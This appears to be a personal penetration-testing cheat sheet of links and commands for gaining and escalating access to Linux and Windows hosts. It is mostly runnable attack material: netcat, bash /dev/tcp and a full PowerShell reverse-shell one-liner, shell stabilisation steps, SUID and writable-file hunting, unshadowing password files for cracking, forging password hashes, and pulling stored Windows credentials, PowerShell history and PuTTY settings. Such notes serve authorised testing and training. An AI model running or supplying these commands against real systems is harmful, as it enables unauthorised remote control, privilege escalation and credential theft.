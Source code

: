 

https://www.exploit-db.com/

https://crackstation.net/

Payloads all the things: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
Reverse shell cheatsheet: https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
Sec Lists: https://github.com/danielmiessler/SecLists

nc reverse shell - nc <LOCAL-IP> <PORT> -e /bin/bash

Netscat Shell stabilitisation

1. python -c 'import pty;pty.spawn("/bin/bash")'
2. export TERM=xterm
3. Ctrl + Z then stty raw -echo; fg

1. sudo apt install rlwrap
2. rlwrap nc -lvnp <port>
3. stty raw -echo; fg

Self signed crt: openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
Merge key and crt into pem: cat shell.key shell.crt > shell.pem
PS reverse shell: powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

cat /etc/passwd | grep home
sudo -l
ipconfig
netstat -a
netstat -au
netstat -at
netstat -lp
netstat -ltp
netstat -s
netstat -tp
netstat -i

find / -perm a=x -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null => Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.

https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist
    - https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
    - https://github.com/mzet-/linux-exploit-suggester
    - https://github.com/diego-treitos/linux-smart-enumeration
    - https://github.com/linted/linuxprivchecker
    - https://github.com/rebootuser/LinEnum

https://gtfobins.github.io/

find / -type f -perm -04000 -ls 2>/dev/null - will list files that have SUID or SGID bits set
find / -writable 2>/dev/null - find writable folders
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u

unshadow passwd.txt shadow.txt > passwords.tx
openssl passwd -1 -salt <salt> <password> - generate salted hash for a new password
su <new account> - change account

getcap -r / - list enabled capabilities
/etc/crontab

#sh file content to execute reverse shell without nc
#!/bin/bash

bash -i >& /dev/tcp/10.10.10.10/6666 0>&1

PS commands history (From CMD) - type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
cmdkey /list - stored credentials
    => runas /savecred /user:<user> cmd.exe - use runas with stored creds

PuTTY proxy details => reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
